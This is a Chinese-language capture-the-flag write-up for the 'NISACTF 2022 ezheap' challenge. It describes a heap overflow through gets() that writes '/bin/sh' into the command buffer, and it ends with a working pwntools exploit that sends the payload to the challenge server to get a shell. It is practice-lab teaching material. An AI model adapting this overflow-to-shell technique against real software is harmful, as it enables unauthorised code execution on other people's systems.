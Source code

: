 [[NISACTF 2022]ezheap | NSSCTF](https://www.nssctf.cn/problem/2058)
![[Pasted image 20240901174212.png]]
![[Pasted image 20240901174231.png]]
看着挺简单的一道题目，开始给s,command分配了内存~~然后就没头绪了~~
执行gets后发现输入的字符会存在两个地址里
![[Pasted image 20240901174433.png]]
步进后发现command会执行`0x804b1c0`内的字符
![[Pasted image 20240901174505.png]]
可知只要找到输入多少a后能恰好把`/bin/sh`放在`0x804b1c0`里就能获得shell
网上的wp好像说是和堆相关的知识，还没学到的话我就一个一个试的暴力破解
试出来垃圾数据的数量是`0x20`。**输入的`/bin/sh`后面记得加上`\x00`**
exp:
```python
from pwn import *
import pwnlib.gdb

context(arch='i386', os='linux', log_level='debug')
local = False
elf = ELF('./ezheap')
if local:
    p = process('./ezheap')
    pwnlib.gdb.attach(p, 'b *0x804857F')
else:
    p = remote('node5.anna.nssctf.cn', 21970)
offset = 0x16 + 10
p.recvuntil(b"Input:\n")
p.sendline(b"A"*offset + b'/bin/sh\x00')
p.interactive()
```


